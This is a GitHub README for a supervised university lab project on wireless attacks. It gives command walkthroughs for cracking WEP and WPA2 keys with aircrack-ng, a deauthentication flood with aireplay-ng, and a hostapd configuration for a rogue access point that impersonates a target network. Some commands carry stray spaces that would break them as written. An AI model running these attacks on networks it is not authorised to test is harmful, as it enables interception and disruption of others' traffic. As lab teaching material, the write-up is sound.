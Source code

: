 # Wireless Penetration Testing: WEP/WPA2 Cracking & Rogue AP Simulation
![Status](https://img.shields.io/badge/Status-Completed-green)  
![Tech](https://img.shields.io/badge/Tools-Aircrack--ng%2C%20Wireshark%2C%20Scapy%2C%20Python%20-%20blue)  

## 📌 Overview  
This repository contains a **Wi-Fi Security project**, where I explored vulnerabilities in wireless networks, including:  
- Cracking WEP encryption  
- Cracking WPA2 encryption  
- Performing deauthentication attacks  
- Simulating rogue access points  

This project demonstrates **ethical hacking techniques** used in penetration testing for assessing and strengthening Wi-Fi security.  

---

## 📖 Table of Contents  
- [Key Topics Covered](#key-topics-covered)  
- [Files Included](#files-included)  
- [Tools & Technologies Used](#tools--technologies-used)  
- [Methodology](#methodology)  
- [Ethical Considerations](#ethical-considerations)  
- [Learning Outcomes](#learning-outcomes)     
- [Contact](#contact)
- [Acknowledgements](#acknowledgements)  

---

## 🛠 Key Topics Covered  
- **Cracking WEP Encryption**: Used `aircrack-ng` to recover WEP keys by analyzing captured IVs.  
- **Breaking WPA2-PSK Encryption**: Captured WPA2 handshake and used dictionary attacks.  
- **Deauthentication Attacks**: Exploited CVE-2019-16275 to disconnect clients from a Wi-Fi network.  
- **Rogue Access Point Attack**: Set up a fake AP and captured victim traffic.  

---

## 📂 Files Included  
| File Name | Description |  
|-----------|------------|  
| `captures/*` | All the required captures to execute this attack |  
| `scripts/deauth.py` | Python script for deauthentication attack |   
| `scripts/hostapd.txt` | Configuration file for creating a rogue AP | 
| `wordlists/passwords.txt` | Wordlist used for WPA cracking |  

---

## 🔧 Tools & Technologies Used  
- **Aircrack-ng Suite** (`Airmon-ng`, `Airodump-ng`, `Aircrack-ng`, `Aireplay-ng`)  
- **Wireshark** – Network packet analysis  
- **Scapy** – Packet manipulation & forging  
- **Python** – Scripting for automated attacks  
- **Linux CLI (Ubuntu VM)** – Running security tools 
- **TPLink TL-WN722N Wi-Fi Adapter** 

---

## 🔍 Methodology  

### **0️⃣ Environment Setup**

```bash
sudo apt update
sudo apt install -y aircrack - ng

sudo apt install wireshark

git clone https :// github . com / secdev / scapy . git
cd scapy
sudo python3 setup . py install

sudo apt update
sudo apt upgrade
sudo apt install -y realtek - rtl8188eus - dkms
```

```bash
iwconfig # Indentify the inteface of the wifi adapter

# replace < interface > with the interface of the wifi adapter
sudo ifconfig < interface > down
sudo airmon - ng check kill
sudo iwconfig < interface > mode monitor
sudo ifconfig < interface > up
iwconfig
# This enables monitor mode 
```

---

### **1️⃣ Cracking WEP Encryption**  
- Enabled **monitor mode** using `airmon-ng`.  
- Captured packets using `airodump-ng`.  
- Used **IVs** to decrypt the key with `aircrack-ng`.  

```bash
# Start monitor mode
sudo airmon-ng start wlan0

# Capture packets
sudo airodump - ng wlan0mon -w < dump file >

# Crack WEP keykey
aircrack - ng -n 64 -b <AP_MAC_address> <dump file>. pcap
```
- Add the key in wireshark to decrypt the packets. (Edit > Preferences > Protocols > IEEE 802.11 > Decryption keys.Make sure to choose the protocol as wep.)

### **2️⃣ Cracking WPA2 Encryption**  
- Captured **4-way handshake** using `airodump-ng`.  
- Used dictionary attack with `aircrack-ng`.  

```bash
# Capture handshake
sudo airodump - ng wlan0mon -w <dump_file > -c <channel>

# Crack WPA2 password
sudo aircrack - ng -a 2 -b < AP_MAC_address > -w <word_file> <dump_file> (I used passwords.txt as the word file) 
```
- 

### 3️⃣ Deauthentication Attack
- Used aireplay-ng to send deauthentication frames, disconnecting clients.
- Exploited CVE-2019-16275 for forced disconnection.

```bash
sudo aireplay-ng --deauth 100 -a <AP_MAC> -c <Client_MAC> wlan0mon
```

### 4️⃣ Rogue Access Point Attack
- Created a fake AP using hostapd to capture victim traffic.
- Used Wireshark to analyze captured packets.

```bash
#Create hostapd.conf and add the following lines
ctrl_interface=/var/run/hostapd
driver=nl80211
ssid=<target AP>
channel=<target channel>
hw_mode=g
ieee80211n=1
ieee80211w=2
auth_algs=< target algorithm >
wpa=< target WPA version >
wpa_key_mgmt=< target MGMT >
rsn_pairwise=< target paiwise >
wpa_passphrase=< target password >
```
```bash
sudo systemctl restart apache2
sudo hostapd hostapd.conf
```

---

## ⚖️ Ethical Considerations

⚠️ Disclaimer: This project was conducted in a controlled lab environment as part of an exercise in cybersecurity. Unauthorized Wi-Fi penetration testing is illegal without explicit permission. The purpose of this project was to understand security weaknesses and develop skills for ethical hacking and cybersecurity defense."

### Key ethical principles followed:

✅ Responsible Disclosure – Understanding vulnerabilities to help secure networks.
✅ No Unauthorized Testing – Experiments were performed in a controlled environment with instructor approval.
✅ Security Awareness – The findings from this project help reinforce best security practices for network protection.

## 🎯 Learning Outcomes

By completing this project I gained the following skills:

✅ Hands-on experience with Wi-Fi security – Analyzed encryption flaws in WEP and WPA2.
✅ Packet Sniffing & Analysis – Used Wireshark to capture and inspect wireless traffic.
✅ Cracking Encryption Keys – Learned how dictionary attacks and IV collection work against WPA2 and WEP.
✅ Ethical Hacking Techniques – Performed deauthentication attacks and rogue AP simulations.
✅ Understanding Countermeasures – Explored network defense strategies, including WPA3, VPNs, and intrusion detection.

---

### 📩 Contact
For any inquiries, feel free to reach out via:
📌 LinkedIn: www.linkedin.com/in/pranavs07

---

### 📚 Acknowledgements
Parts of this lab were originally written by Simon Thoustrup, Sigurd Hilbert Madsen and Frej Laursen
W¨urtz. Later on, parts of these exercises were re-written/edited by Kasper Rasmussen and then edited
by Davide Zanetti, Ghassan Karame, Luka Maliˇsa, Joel Reardon and Nikos Karapanos. Addition of the
deauthentication attack, has been done by Domien Schepers, while addition of the rogue access points and
latest editing/updating of all sections has been done by Evangelos Bitsikas. This project was completed under the supervision of Dr. Aanjhan Ranganathan.